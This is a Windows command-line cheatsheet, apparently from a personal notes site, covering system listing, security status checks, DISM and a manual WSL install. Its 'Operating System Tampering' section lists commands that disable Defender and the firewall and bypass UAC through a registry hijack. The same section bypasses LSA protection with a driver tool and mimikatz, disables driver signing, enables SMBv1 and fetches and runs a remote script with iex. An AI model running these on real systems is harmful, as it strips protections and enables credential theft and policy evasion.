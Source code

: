 ```yaml
---
layout: post
title: Sysadmin CLI WIN
category: Sysadmin
parent: Sysadmin
grand_parent: Cheatsheets
modified_date: 2022-06-03
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* 1. [listing system config](#listingsystemconfig)
	* 1.1. [listing OS and KB config](#listingOSandKBconfig)
	* 1.2. [listing network config & shares](#listingnetworkconfigshares)
	* 1.3. [listing users](#listingusers)
* 2. [Security Checks](#SecurityChecks)
	* 2.1. [windows firewall status](#windowsfirewallstatus)
	* 2.2. [windows defender status](#windowsdefenderstatus)
* 3. [Operating System Tampering](#OperatingSystemTampering)
	* 3.1. [configure network ip address](#configurenetworkipaddress)
	* 3.2. [donwload ps activedirectory module](#donwloadpsactivedirectorymodule)
	* 3.3. [windows defender: disable](#windowsdefender:disable)
	* 3.4. [windows firewall: disable](#windowsfirewall:disable)
	* 3.5. [windows uac: bypass](#windowsuac:bypass)
	* 3.6. [Windows lsaprotection: bypass](#Windowslsaprotection:bypass)
	* 3.7. [Windows driver signature: disable](#Windowsdriversignature:disable)
	* 3.8. [SMBv1: enable](#SMBv1:enable)
* 4. [Windows DISM](#WindowsDISM)
* 5. [Windows WSL manual distro install](#WindowsWSLmanualdistroinstall)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='listingsystemconfig'></a>listing system config
###  1.1. <a name='listingOSandKBconfig'></a>listing OS and KB config
```powershell
# listing OS version
wmic os list brief

# listing KB wmi
wmic qfe list full /format:table

# listing KB ps
powershell -Command "systeminfo /FO CSV" | out-file C:\Windows\Temp\systeminfo.csv
import-csv C:\Windows\Temp\systeminfo.csv | ForEach-Object{$_."Correctif(s)"}
```

###  1.2. <a name='listingnetworkconfigshares'></a>listing network config & shares
```powershell
# listing network hardware
wmic nic list brief
ipconfig /all

# listing network software 
ipconfig /all
route -n
netstat -ano

# listing network shares
wmic netuse list brief
net use

wmic share
net share
```

###  1.3. <a name='listingusers'></a>listing users
```powershell
# listing local users
wmic netlogin list brief
net user
net localgroup
net localgroup Administrators
```

##  2. <a name='SecurityChecks'></a>Security Checks

###  2.1. <a name='windowsfirewallstatus'></a>windows firewall status
```batch
# logfile: %systemroot%\system32\LogFiles\Firewall\pfirewall.log
netsh advfirewall show allprofiles
```

###  2.2. <a name='windowsdefenderstatus'></a>windows defender status
```batch
powershell -inputformat none -outputformat text -NonInteractive -Command 'Get-MpPreference | select -ExpandProperty "DisableRealtimeMonitoring"'
```

##  3. <a name='OperatingSystemTampering'></a>Operating System Tampering

###  3.1. <a name='configurenetworkipaddress'></a>configure network ip address
```batch
netsh
interface ip set address "connection name" static 192.168.1.1 255.255.255.0 192.168.1.254
```

###  3.2. <a name='donwloadpsactivedirectorymodule'></a>donwload ps activedirectory module 
```batch
#version 1
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

###  3.3. <a name='windowsdefender:disable'></a>windows defender: disable
```batch
powershell.exe -Command Set-MpPreference -DisableRealtimeMonitoring $true
```


###  3.4. <a name='windowsfirewall:disable'></a>windows firewall: disable
```batch
netsh advfirewall set publicprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set allprofiles state off
```

###  3.5. <a name='windowsuac:bypass'></a>windows uac: bypass
```batch
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
```

###  3.6. <a name='Windowslsaprotection:bypass'></a>Windows lsaprotection: bypass
```batch
powershell .\ConsoleApplication1.exe/InstallDriver
powershell .\ConsoleApplication1.exe/makeSYSTEMcmd
powershell .\mimikatz.exe
```

###  3.7. <a name='Windowsdriversignature:disable'></a>Windows driver signature: disable
```batch
bcdedit.exe /set nointegritychecks on
bcdedit.exe /set testsigning on
```

###  3.8. <a name='SMBv1:enable'></a>SMBv1: enable
```batch
DISM /online /enable-feature /featurename:SMB1Protocol
DISM /online /enable-feature /featurename:SMB1Protocol-Client
DISM /online /enable-feature /featurename:SMB1Protocol-Server
DISM /online /enable-feature /featurename:SMB1Protocol-Deprecation
```

##  4. <a name='WindowsDISM'></a>Windows DISM
```batch
# Pre requisites: Admin rights
# get all windows feature and save to a txt file
DISM /online /get-features /format:table > C:\Temp\dism_listing.txt
get-windowsoptionalfeature -online | ft | more

# get windows feature that are enable/disable
DISM /online /get-features /format:table | find “Enabled” | more
DISM /online /get-features /format:table | find “Disabled” | more

# get windows feature by its name
DISM /online /get-featureinfo /featurename:Microsoft-Windows-Subsystem-Linux
DISM /online /get-featureinfo /featurename:TelnetClient
get-windowsoptionalfeature -online -featurename SMB1Protocol*
get-windowsoptionalfeature -online -featurename SMB1Protocol* |ft
```

##  5. <a name='WindowsWSLmanualdistroinstall'></a>Windows WSL manual distro install
```
# Note: By pass the GPO blocking the exec of the App Store app

Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
New-Item C:\Ubuntu -ItemType Directory
Set-Location C:\Ubuntu
Invoke-WebRequest -Uri https://aka.ms/wsl-ubuntu-1604 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wslubuntu2004 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wsl-kali-linux-new -OutFile Kali.appx -UseBasicParsing
 
# Extract and execute the EXE in the archive to install the distro
Rename-Item .\Ubuntu.appx Ubuntu.zip
Expand-Archive .\Ubuntu.zip -Verbose
Ubuntu.exe

# List the distributions installed
wslconfig /list /all
wsl -l
```
